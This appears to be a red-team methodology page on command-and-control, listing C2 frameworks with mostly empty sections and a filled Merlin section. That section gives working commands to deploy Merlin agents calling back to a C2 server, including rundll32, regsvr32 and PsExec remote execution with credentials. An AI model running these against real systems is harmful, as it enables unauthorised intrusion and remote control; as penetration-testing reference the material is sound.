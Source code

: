 # Command and Control
[**Back** to Methodologies](/Methodology#methodologies)

*Command and Control consists of techniques that adversaries may use to communicate with systems under their control within a victim network. Adversaries commonly attempt to mimic normal, expected traffic to avoid detection. There are many ways an adversary can establish command and control with various levels of stealth depending on the victim’s network structure and defenses.*
                                                -[Mitre ATT&CK](https://attack.mitre.org/tactics/TA0011/)

+ [Setting up External Servers](#setting-up-external-servers)
  + [Digital Ocean](#digital-ocean)
  + [AWS Lightsail](#aws-lightsail)
  + [Linode](#linode)
+ [C2 Frameworks](#c2-frameworks)
  + [Metasploit](#metasploit)
  + [Cobalt Strike](#cobalt-strike)
  + [PowerShell Empire](#powershell-empire)
  + [dnscat2](#dnscat2)
  + [Pupy Shell](#pupy-shell)
  + [PoshC2](#poshc2)
  + [Merlin](#merlin)
  + [Nishang](#nishang)

# Setting up External Servers



## Digital Ocean

## AWS Lightsail

## Linode

# C2 Frameworks

| Name | Written in | Clame to fame |
| :-: | :-: | --- |
| [Metasploit](#metasploit) | Ruby | Gold Standard, active community support |
| [Cobalt Strike](#cobalt-strike) | Aggressor | Post-exploitation, also Gold Standard (NOT FREE!) |
| [Powershell Empire](#powershell-empire) | PowerShell(Win)/Python(Linux) | Post-exploitation great for Window/AD envs |
| [dnscat2](#dnscat2) | C | Encrypted tunnels over DNS (usually a way "out" of almost every network) |
| [Pupy Shell](#pupy-shell) | Python | Run python on all agents without it actually being on your host |
| [PoshC2](#poshc2) | PowerShell | Proxy aware C2 framework |
| [Merlin](#merlin) | GO | HTTP/2 multiplexed, bi-directional connections that stay open and are in binary. Easy to parse and not human readable without an interpreter |
| [Nishang](#nishang) | PowerShell | Amazing collection of PowerShell scripts that can be used for C2 and all other phases |

# Metasploit

# Cobalt Strike

# Powershell Empire

# dnscat2

# Pupy Shell

# PoshC2

# Merlin

![image](https://user-images.githubusercontent.com/83407557/173481864-e97d726a-d779-4926-8f0f-08244bded3de.png)

[Online Documentation](https://merlin-c2.readthedocs.io/en/latest/index.html)

[Github page](https://github.com/Ne0nd0g/merlin)

## Merlin Server

The following single line of code can be used to download, extract, and run Merlin Server on an Ubuntu Server:
```bash
sudo bash;apt update;apt install p7zip-full -y;cd /opt;wget https://github.com/Ne0nd0g/merlin/releases/latest/download/merlinServer-Linux-x64.7z;7z x -pmerlin -omerlin merlinServer-Linux-x64.7z;cd merlin;./merlinServer-Linux-x64
```
## Merlin Agents

Pre-compiled Merlin Agent binary files are distributed with the server download in the data/bin/ directory of Merlin

Can also use GO to retrieve and build an Agent
```bash
go get github.com/Ne0nd0g/merlin-agent
```

### Upload and Execute

Unless recompiling binary, the hardcoded -url flag needs to be set to your C2 server url when executing. For these examples the C2 server ip is 192.168.1.100.



### Windows Local Execution

#### CMD.exe
```cmd
C:\Users\Bob\Downloads>merlinAgent.exe -url https://192.168.1.100:443/
```
#### rundll32.exe
```cmd
C:\Users\Bob\Downloads>C:\WINDOWS\System32\rundll32.exe merlin.dll,Run https://192.168.1.100:443/
```

### Windows Remote Execution

#### PsExec.exe
```cmd
PS C:\SysinternalsSuite>.\PsExec.exe \\192.168.1.10 -u bob -p password -d -c C:\merlin\data\bin\windows\merlinAgent.exe -url https://192.168.1.100:443/
```

### Recompiling DLL
The merlin.dll file can be configured with the hardcoded url of your Merlin server. To do this, clone the repo, modify the file, and recompile it.
```bash
cd /opt
git clone -b dev https://github.com/Ne0nd0g/merlin-agent-dll.git
cd merlin-agent-dll
sed -i 's_https://127.0.0.1:443/_https://192.168.1.100:443/_' main.go
make
```
Running dll with rundll32.exe
```cmd
rundll32.exe merlin,main
rundll32.exe merlin,Run
```
with regsvr32.exe
```cmd
regsvr32.exe /s merlin.dll
regsvr32.exe /s /u merlin.dll
regsvr32.exe /s /n /i merlin.dll
```


# Nishang

